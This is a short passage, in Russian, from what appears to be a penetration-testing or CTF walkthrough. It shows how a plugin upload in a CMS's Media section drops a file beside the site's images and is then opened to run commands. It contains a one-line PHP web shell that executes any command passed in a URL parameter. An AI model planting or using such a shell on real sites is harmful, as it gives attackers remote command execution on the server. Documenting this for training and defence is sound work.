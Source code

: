 Идея в том, что скрипт должен упасть туда же, где лежит картинка для Media.
1) Грузим Плагин, выбрал я все тот же простой скрипт для php:
```
<?php system($_GET['cmd']); ?>
```
2) Идем в Media, смотрим где лежит картинка

![](https://i.imgur.com/amKTK1Z.png)

Идем туда, видим наш скрипт

![](https://i.imgur.com/8cQGO6Y.png)

Дальше все тем же способом, выполняем команду:

![](https://i.imgur.com/kA219wY.png)
